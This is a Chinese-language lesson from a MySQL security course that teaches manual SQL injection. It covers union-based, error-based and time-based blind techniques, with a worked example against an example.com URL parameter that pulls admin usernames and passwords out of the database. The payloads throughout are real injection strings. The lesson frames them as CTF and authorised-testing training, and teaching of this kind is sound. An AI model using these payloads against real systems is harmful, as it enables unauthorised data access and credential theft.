# MySQL数据库安全：P10：SQL查询与手工注入实战 🛡️







在本节课中，我们将学习MySQL数据库的结构，并掌握如何利用SQL查询进行手工注入攻击。我们将从数据库的基本结构开始，逐步深入到联合查询、报错注入和时间盲注等核心技巧，并通过一个实战案例来巩固所学知识。





## 数据库结构探索 🔍



上一节我们介绍了SQL注入的基本概念，本节中我们来看看MySQL数据库的内部结构。了解数据库结构是进行有效注入的前提。





MySQL提供了一个名为 `information_schema` 的系统数据库，它存储了关于所有其他数据库的元数据（metadata）。这个数据库中有几张关键的表对我们至关重要。



以下是 `information_schema` 数据库中我们需要关注的三张核心表：



*   **`SCHEMATA` 表**：此表记录了当前MySQL服务器中所有的数据库名。关键的列是 `SCHEMA_NAME`。
*   **`TABLES` 表**：此表记录了所有数据库中的所有表名。关键的列是 `TABLE_SCHEMA`（数据库名）和 `TABLE_NAME`（表名）。
*   **`COLUMNS` 表**：此表记录了所有表中的所有列（字段）信息。关键的列是 `TABLE_SCHEMA`（数据库名）、`TABLE_NAME`（表名）和 `COLUMN_NAME`（列名）。



我们可以通过SQL命令来查询这些信息。例如，查看所有数据库名：
```sql
SELECT SCHEMA_NAME FROM information_schema.SCHEMATA;
```
查看 `mysql` 数据库中的所有表名：
```sql
SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = ‘mysql’;
```
查看 `user` 表中的所有列名：
```sql
SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME = ‘user’;
```



## 基础SQL语句与注入点探测 🧪



了解了数据库结构后，我们使用基础的SQL语句来探测和验证注入点。



首先，一个简单的查询语句如下：
```sql
SELECT * FROM students;
```
我们可以使用 `WHERE` 子句来限定条件：
```sql
SELECT * FROM students WHERE name = ‘韩寒’;
```
在注入测试中，我们常在 `WHERE` 条件后附加逻辑判断。例如：
*   `AND 1=1`：这是一个永真条件，如果页面正常返回，说明该参数可能被代入SQL查询。
*   `AND 1=2`：这是一个永假条件，如果页面返回异常（如无内容），进一步确认了注入点的存在。



接下来，我们使用 `ORDER BY` 子句来猜测查询结果返回的列数。`ORDER BY` 后面可以跟列名或列序号。
```sql
SELECT name, age FROM students ORDER BY 3; -- 尝试按第3列排序
```
如果 `ORDER BY 3` 导致数据库报错，而 `ORDER BY 2` 正常，则说明当前查询结果只有2列。这帮助我们了解后端查询语句的构成。





## 联合查询注入（Union-Based Injection）🔗

联合查询注入是一种高效的回显型注入技术。它利用 `UNION` 或 `UNION ALL` 操作符将恶意查询的结果附加到原始查询结果之后。



使用联合查询有两个基本要求：
1.  前后两个 `SELECT` 语句的列数必须相同。
2.  对应列的数据类型必须兼容。

以下是联合查询的示例：
```sql
-- 原始查询
SELECT name, age FROM students WHERE name=‘韩寒‘;
-- 联合查询，附加我们想要的信息
SELECT name, age FROM students WHERE name=‘韩寒‘ UNION SELECT 1, 2;
```
数据库会进行隐式类型转换，将数字 `1` 和 `2` 作为字符串处理，并与前一个查询的结果合并返回。

我们可以在联合查询的字段位置插入数据库函数，来获取系统信息：
```sql
SELECT name, age FROM students WHERE name=‘韩寒‘ UNION SELECT database(), version();
```
这条语句会在结果中返回当前数据库名和数据库版本。





## 报错注入与逻辑判断 🚨



当页面不会直接显示查询结果，但会返回数据库错误信息时，我们可以利用报错注入。`ORDER BY` 子句常被用于构造这类注入。



我们可以通过 `IF()` 函数和 `ORDER BY` 结合，构造基于逻辑判断的报错。
```sql
SELECT * FROM students ORDER BY IF(1=1, name, age);
```
如果 `1=1` 成立，则按 `name` 列排序；否则按 `age` 列排序。通过观察页面是正常排序还是报错，可以判断逻辑条件是否成立。

更复杂的利用可以结合子查询。例如，判断数据库用户名的第一个字符：
```sql
SELECT * FROM students ORDER BY IF(SUBSTRING(user(),1,1)=‘r‘, 1, (SELECT 1 UNION SELECT 2));
```
这个语句的意思是：如果当前用户名的第一个字母是 ‘r‘，则按第1列正常排序；否则，子查询 `(SELECT 1 UNION SELECT 2)` 会返回两行数据，导致 `ORDER BY` 后面跟了多个值而报错。通过遍历字母，我们可以逐位猜解出用户名。

## 时间盲注（Time-Based Blind Injection）⏱️

如果页面既不回显数据，也不显示错误信息，我们可以尝试时间盲注。其原理是：如果条件为真，则让数据库执行一个耗时的操作（如 `SLEEP()`）；如果条件为假，则不执行。通过观察页面响应时间的长短来判断条件真假。



示例：
```sql
SELECT * FROM articles WHERE id=1 AND IF(SUBSTRING(database(),1,1)=‘a‘, SLEEP(5), 0)
```
如果数据库名的第一个字母是 ‘a‘，则页面响应会延迟5秒；否则立即返回。通过这种方式，可以像报错注入一样，逐位猜解出我们想要的信息。



## 手工注入实战演练 🎯



最后，我们通过一个模拟的URL参数注入点，来串联以上所有技巧。

**1. 探测注入点**
假设存在URL：`http://example.com/article.php?id=44`
*   测试：`id=44 AND 1=1` → 页面正常。
*   测试：`id=44 AND 1=2` → 页面无内容或异常。
初步判断 `id` 参数存在注入。



**2. 判断列数**
*   测试：`id=44 ORDER BY 5` → 报错。
*   测试：`id=44 ORDER BY 4` → 正常。
*   测试：`id=44 ORDER BY 3` → 正常。
确定当前查询返回 **3列**。



**3. 联合查询获取回显点**
*   测试：`id=44 UNION SELECT 1,2,3` → 观察页面，发现数字 `2` 和 `3` 被显示在网页上。这意味着第2和第3列是回显点。



**4. 利用回显点获取信息**
*   获取数据库名和用户：`id=44 UNION SELECT 1, database(), user()`
*   猜解表名（利用 `information_schema`）：
    ```sql
    id=44 UNION SELECT 1, 2, table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1
    ```
    通过修改 `LIMIT` 参数，可以遍历所有表名。
*   猜解列名（已知表名为 `admin`）：
    ```sql
    id=44 UNION SELECT 1, 2, column_name FROM information_schema.columns WHERE table_name=‘admin‘ LIMIT 0,1
    ```
*   提取数据：
    ```sql
    id=44 UNION SELECT 1, username, password FROM admin LIMIT 0,1
    ```

## 总结 📝





本节课中我们一起学习了SQL手工注入的核心技术。我们从探索MySQL的 `information_schema` 数据库结构开始，掌握了如何利用 `UNION` 进行联合查询注入、利用 `ORDER BY` 和逻辑函数进行报错注入，以及利用 `SLEEP()` 函数进行时间盲注。最后，我们通过一个完整的实战案例，演练了从注入点探测到数据提取的全过程。理解这些原理和步骤，是进行CTF比赛或安全测试中应对SQL注入挑战的基础。请务必在合法授权的环境中进行练习。